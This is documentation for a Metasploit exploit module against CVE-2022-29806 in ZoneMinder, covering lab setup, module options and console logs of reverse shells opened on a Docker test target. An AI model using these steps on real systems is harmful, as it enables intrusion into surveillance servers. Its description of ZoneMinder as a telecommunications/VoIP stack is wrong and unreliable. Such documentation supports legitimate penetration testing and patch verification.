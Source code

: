 ## Description

This module exploits arbitrary file write in debug log file option chained with a path traversal in language settings that leads to a remote code execution in ZoneMinder surveillance software versions before 1.36.13 and before 1.37.11

More about the vulnerability detail: [CVE-2022-29806](https://cve.mitre.org/cgi-bin/cvename.cgi?name=2022-29806).

The module will automatically use `php/reverse_perl` payload.

The module will check if authentication is enabled but Zoneminder does not enable the authentication by default.

## Vulnerable Application
[Zoneminder](https://zoneminder.com/) is a free and open-source software defined telecommunications stack for real-time communication, WebRTC, telecommunications, video, and Voice over Internet Protocol.

This module has been tested successfully on Zoneminder versions:
* 1.36.4~64bit on Ubuntu 18.04
* 1.34.23~64bit on Debian 11.10

### Source and Installers
* [Source Code Repository](https://github.com/ZoneMinder/zoneminder/)
* [Installers](https://github.com/ZoneMinder/zoneminder/#installation-methods)
* [Docker](https://github.com/ZoneMinder/zmdockerfiles)

### Docker installation
```
docker run -d --rm -ti -p 1080:80 \
    -e TZ='Europe/London' \
    --shm-size="512m" \
    --name zoneminder \
    zoneminderhq/zoneminder:latest-ubuntu18.04
```
Navigate to [http:\//172.17.0.2/zm/index.php?view=privacy](http://172.17.0.2/zm/index.php?view=privacy) and click **APPLY** to activate the dashboard

### Enable authentication
To enable authentication for verification and scenarios, follow this steps:
1. Navigate to [http:\//172.17.0.2/zm/index.php?view=options](http://172.17.0.2/zm/index.php?view=options)
2. Tick the **OPT_USE_AUTH** option and click save
3. Login with the default password `admin:admin`
4. Navigate to [http:\//172.17.0.2/zm/index.php?view=options&tab=users](http://172.17.0.2/zm/index.php?view=options&tab=users) and change the admin password

## Verification Steps
1. Do: `use exploit/unix/webapp/zoneminder_lang_exec`
2. Do: `set RHOSTS [ips]`
3. Do: `set LHOST [lhost]`
4. Do: `run`
5. You should get a shell.

## Options
### RPORT
The Zoneminder target port (default: 80)
### TARGETURI
The ZoneMinder path (default: `/zm/`)
### USERNAME
The ZoneMinder username (default: admin)
### PASSWORD
The ZoneMinder password (default: admin)

## Scenarios
### Successful exploitation of ZoneMinder 1.36.4 on Ubuntu 18.04 Docker
```
msf6 > use exploit/unix/webapp/zoneminder_lang_exec
[*] Using configured payload php/reverse_perl
msf6 exploit(unix/webapp/zoneminder_lang_exec) > set RHOSTS 172.17.0.2
RHOSTS => 172.17.0.2
msf6 exploit(unix/webapp/zoneminder_lang_exec) > set LHOST 172.17.0.1
LHOST => 172.17.0.1
msf6 exploit(unix/webapp/zoneminder_lang_exec) > set VERBOSE true
VERBOSE => true
msf6 exploit(unix/webapp/zoneminder_lang_exec) > run

[*] Started reverse TCP handler on 172.17.0.1:4444
[+] Version Detected: 1.36.4
[*] Leak installation directory path
[+] Path: /usr/share/zoneminder/www
[+] Shell: ../../../../../tmp/rmdQiqoLFCsov.php
[*] Command shell session 1 opened (172.17.0.1:4444 -> 172.17.0.2:58932) at 2022-04-27 03:36:31 +0700

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### Successful exploitation of ZoneMinder 1.36.4 on Ubuntu 18.04 Docker with authentication enabled
```
msf6 > use exploit/unix/webapp/zoneminder_lang_exec
[*] Using configured payload php/reverse_perl
msf6 exploit(unix/webapp/zoneminder_lang_exec) > set RHOSTS 172.17.0.2
RHOSTS => 172.17.0.2
msf6 exploit(unix/webapp/zoneminder_lang_exec) > set LHOST 172.17.0.1
LHOST => 172.17.0.1
msf6 exploit(unix/webapp/zoneminder_lang_exec) > set USERNAME admin
USERNAME => admin
msf6 exploit(unix/webapp/zoneminder_lang_exec) > set PASSWORD password
PASSWORD => password
msf6 exploit(unix/webapp/zoneminder_lang_exec) > set VERBOSE true
VERBOSE => true
msf6 exploit(unix/webapp/zoneminder_lang_exec) > run

[*] Started reverse TCP handler on 172.17.0.1:4444
[+] Version Detected: 1.36.4
[*] Leak installation directory path
[+] Path: /usr/share/zoneminder/www
[+] Shell: ../../../../../tmp/Cn3PqXcN9VlAR98.php
[*] Command shell session 1 opened (172.17.0.1:4444 -> 172.17.0.2:51944) at 2022-04-27 18:53:14 +0700

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### Failed exploitation due to invaild credentials
```
msf6 > use exploit/unix/webapp/zoneminder_lang_exec
[*] Using configured payload php/reverse_perl
msf6 exploit(unix/webapp/zoneminder_lang_exec) > set RHOSTS 172.17.0.2
RHOSTS => 172.17.0.2
msf6 exploit(unix/webapp/zoneminder_lang_exec) > set LHOST 172.17.0.1
LHOST => 172.17.0.1
msf6 exploit(unix/webapp/zoneminder_lang_exec) > set VERBOSE true
VERBOSE => true
msf6 exploit(unix/webapp/zoneminder_lang_exec) > run

[*] Started reverse TCP handler on 172.17.0.1:4444
[-] Service found, but authentication failed
[-] Exploit aborted due to failure: not-vulnerable: Target is not vulnerable.
[*] Exploit completed, but no session was created.
```
